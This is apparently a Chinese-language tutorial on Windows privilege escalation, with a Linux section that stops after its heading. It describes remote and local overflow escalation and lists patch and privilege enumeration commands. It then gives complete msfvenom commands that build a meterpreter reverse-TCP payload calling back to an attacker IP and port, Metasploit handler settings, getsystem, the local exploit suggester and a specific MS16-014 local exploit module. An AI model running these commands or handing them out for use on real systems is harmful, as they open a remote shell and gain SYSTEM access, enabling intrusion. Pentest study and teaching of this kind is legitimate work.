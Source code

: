# Windows

Windows一般是提权到administrator或system

### Windows溢出提权

分为远程溢出和本地溢出

远程溢出需要与远程服务器建立连接,然后根据系统漏洞使用相应的溢出程序获取远程服务器的 Windows操作系统Systen权限。

本地溢出是主流的提权方式,通常需要向服务器上传本地溢出程序,然后在服务器执行,如果系统存在漏洞,那么将会溢出获得 Windows操作系统System权限。

缓冲区提权步骤

```
(1)信息收集,例如查看当前权限,查看版本、补丁等
(2)根据收集到的信息确定可利用漏洞
(3)根据漏洞查找EXP
(4)使用EXP提权
```

执行下面命令看一下系统安装了哪些补丁

```
systeminfo
wmic qfe get caption,description,hotfixid,installedon
```

然后用命令查看当前账号权限

```
whoami /groups
```

接下来可以通过查看相关补丁来到浏览器搜索对应的漏洞

接下来用MSF提权

先上线到msf

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp
LHOST=192.168.41.134 LPORT=3333 -f exe -o test.exe （32位）
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp
LHOST=192.168.41.134 LPORT=3333 -f exe -o test.exe （64位）

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.41.134
set lport 3333
exploit
```

接下来用命令来试试自动提权，虽然失败几率挺大的

```
getsystem
```

然后用脚本检测可以提权的模块

```
use post/multi/recon/local_exploit_suggester
set session ID
run
```

获取到后用对应脚本提权就行

```
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2
run
```





























# Linux

Linux一般是将普通用户提权到root